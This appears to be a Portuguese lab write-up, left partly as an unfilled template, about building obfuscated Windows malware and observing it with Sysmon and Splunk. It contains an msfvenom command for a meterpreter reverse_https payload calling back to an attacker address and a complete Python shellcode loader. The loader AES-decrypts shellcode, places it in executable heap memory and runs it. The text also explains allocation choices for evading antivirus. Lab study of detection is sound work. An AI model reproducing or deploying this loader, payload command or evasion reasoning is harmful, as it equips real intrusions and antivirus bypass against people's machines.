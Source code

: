 # 🛡️ [TÍTULO DO ARTIGO AQUI]
> *Exemplo: Detectando Injeção de DLL com Sysmon e Splunk*

## 📌 Resumo
Neste eu criei um malware usando veil e apliquei algumas tecnicas de obfuscacao e encryptacao com o objetivo de passar pela seguranca de uma 
virtual machine e observar a reacao do sistema de defesa e os logs gerados por splunk e sysmon infelizmente (ou felizmente) o malware foi detectado pelo sistema windows 
assim que foi baixado, entretanto todo o processo de criacao e execucao geraram muito conhecimento pratico que eu vou registrar aqui.  

---

## ⚙️ Ambiente de Testes

| Componente     | Detalhes                                          |
|----------------|---------------------------------------------------|
| Atacante       | Kali Linux (versão XX)                            |
| Alvo           | Windows 10 (versão XX) com Sysmon                 |
| Ferramentas    | Splunk, Sysmon, Wine, Veil, Python, Metasploit    |
| Técnica usada  | Reverse Shell / etc.  |

---


## 🧪 DETALHES TECNICOS 
 Durante a instalacao do Splunk eu tive alguns problemas para recebecer os logs sysmon no splunk GUI depois de muito procurar eu descobri que 
 era um problema de permissoes do windows 

 (PRINT DO PROGRAMA SERVICES/SPLUNK)

 E necessario que se insira este comando no arquivo input do splunk para receber os logs 

 (PRINT DO ARQUIVO DE CONFIGURACAO SPLUNK)



## 🧪 SOBRE O MALWARE E OFUSCACAO 
 Para este artigo eu escolhi usar um shellcode metasploist e obfusca-lo com codigo python para este proposito foi escolhido esta opcao 
  Este comando vai gerar um shellcode em .raw format pronto para converte-lo em hexadecimal string

```xml msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.56.103 LPORT=3135 -f raw -o result3.raw```

(PRINT PAYLOAD metasploit)

comando para converter o resultado em codigo hexadecimal 

```xml  xxd -p result3.raw | tr -d '\n' | sed 's/\(..\)/\\x\1/g' > result03.txt ```

   (PRINT DA ENCRIPTACAO HEXADECIMAL)

  Logo apos eu usei este codigo python para converter a saida do comando anterior em uma versao encryptada usando uma chave AES de 16 bytes (128 bits),
  isso vai ajudar bypass o sistema de defesa do windows tornando mais dificil para o antivirus indentificar o codigo malicioso dentro do executavel 

[PRINT DO VS CODE ENCRYPTACAO]

Agora nos temos um shellcode pronto para ser inserido no codigo 

**Diferenca entre ```xml VirtualAlloc``` e ```xml HeapAlloc```**     
    Enquanto estudava para montar este malware me deparei com duas opcoes sobre como o malware iria alocar memoria no sistema alvo 
 pelo o que eu entendi ```xml VitualAlloc``` aloca grandes blocos de memoria deixando tudo pronto para que o codigo ja seja executado,
 e muito usado por sistemas complexos entretanto deixa muito rastros no sistema (```xml xmlVirtualAlloc + WriteProcessMemory + CreateRemoteThread```)e por ja ter sido muito usada
 ja e conhecida por antivirus.
 
 s2  ```xml HeapAlloc``` por outro lado usa um pedaco pequeno da memoria disponivel e e metodo muito usado pela maioria dos programas isso torna essa opcao 
 muito menos suspeita o ponto negativo e que o pedaco de memoria alocado inicialmente nao pode executar o codigo entao e necessario a execucao de outro comando depois ```xml HEAP_CREATE_ENABLE_EXECUTE```
 para liberar a execucao. Como o objetivo e bypass as defesas do windows eu escolhi a segunda opcao.

 **NOTE:** Enquanto escrevia este artigo descobri que a opcao  ```VirtualAlloc + VirtualProtect``` pode ser mais eficiente em bypass o sistema de defesa, vou testar isso em artigos futuros 

 Esse foi o codigo adquirido na internet para descriptografar um shellcode usando AES-CBC, 
 alocar memória executável em uma heap privada no processo atual e executa o shellcode via CreateThread:

 ```Python
import base64
import ctypes
from Crypto.Cipher import AES

# === KEY AND IV (must match those used during encryption) ===
key = b'ThisIsA16ByteKey'
iv = b'ThisIsA16ByteIV!'

# === Encrypted shellcode (base64) ===
encrypted_b64 = b"2G8Rv5XtiV6HwQS/DsUBAOQB+pUlMLPJ+KwsV9Ixm8ym6BdI7s5kNf0Qw++2d7qKp3ykcrNXnodX8a"
encrypted = base64.b64decode(encrypted_b64)

# === Decrypt using AES-CBC ===
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(encrypted)

# === Remove PKCS7 padding ===
pad_len = decrypted[-1]
shellcode = decrypted[:-pad_len]

# === Create a private heap ===
heap = ctypes.windll.kernel32.HeapCreate(0x00040000, len(shellcode), 0)  # HEAP_CREATE_ENABLE_EXECUTE
if not heap:
    raise Exception("HeapCreate failed")

# === Allocate executable memory in the heap ===
ptr = ctypes.windll.kernel32.HeapAlloc(heap, 0x00000008, len(shellcode))  # HEAP_ZERO_MEMORY
if not ptr:
    raise Exception("HeapAlloc failed")

# === Copy shellcode to the heap ===
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_void_p(ptr),
    shellcode,
    len(shellcode)
)

# === Execute the shellcode ===
ht = ctypes.windll.kernel32.CreateThread(
    None,
    0,
    ctypes.c_void_p(ptr),
    None,
    0,
    None
)

ctypes.windll.kernel32.WaitForSingleObject(ht, -1)
 ```
    





1. **Objetivo da simulação**
2. **Comando executado pelo atacante**
3. **Expectativa (o que deve ser gerado no log)**

---

## 🔍 Coleta e Análise dos Logs

### 📁 Sysmon - Configuração
Trecho da config usada (ou link para ela).

```xml
<!-- Exemplo -->
<EventFiltering>
  <ProcessCreate onmatch="include">
    <Image condition="contains">rundll32.exe</Image>
  </ProcessCreate>
</EventFiltering>
